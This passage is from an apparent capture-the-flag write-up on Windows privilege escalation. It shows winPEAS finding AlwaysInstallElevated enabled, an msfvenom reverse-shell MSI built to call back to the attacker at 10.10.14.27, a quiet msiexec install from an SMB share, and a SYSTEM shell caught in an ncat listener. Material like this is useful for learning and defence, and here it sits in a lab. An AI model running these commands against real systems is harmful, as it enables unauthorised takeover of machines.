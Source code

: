 ```php
PS C:\xampp\htdocs\omrs\images> \\10.10.14.27\files\wpa.exe
```

In the output we see that the `AlwaysInstallElevated` registry keys are both set to 1, which means we can easily get to system running a malicious msi.

```php
  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

In a first step we create the `msi` using `msfvenom` and select a reverse shell as payload.

```php
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.27 LPORT=7575 -f msi -o grem.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: grem.msi
```

We set up a ncat listener on the specified port and execute it from our smb share as we did with winpeas before.

```php
PS C:\xampp\htdocs\omrs\images> msiexec /quiet /qn /i \\10.10.14.27\files\grem.msi
```

Soon after we get a hit on our listener as `nt authority\system`. Now we can grab the `root.txt` from the administrator's desktop.

```php
$rlwrap nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.4.229.
Ncat: Connection from 10.129.4.229:50480.
Microsoft Windows [Version 10.0.19042.928]
(c) Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```
